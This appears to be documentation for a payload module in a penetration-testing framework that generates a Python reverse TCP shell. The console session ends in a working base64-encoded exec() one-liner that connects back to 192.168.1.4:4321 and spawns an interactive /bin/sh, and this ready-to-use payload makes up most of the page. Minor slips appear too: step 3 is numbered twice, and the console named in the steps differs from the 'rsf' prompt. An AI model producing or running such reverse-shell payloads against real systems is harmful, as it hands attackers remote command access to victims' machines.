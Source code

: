 ## Description

Module generates payload that creates interactive tcp reverse shell by using python. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/python/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates python tcp reverse shell payload

## Scenarios

```
rsf > use payloads/python/reverse_tcp
rsf (Python Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Python Reverse TCP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoJzE5Mi4xNjguMS40Jyw0MzIxKSkKb3MuZHVwMihzLmZpbGVubygpLDApCm9zLmR1cDIocy5maWxlbm8oKSwxKQpvcy5kdXAyKHMuZmlsZW5vKCksMikKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk='.decode('base64'))
```
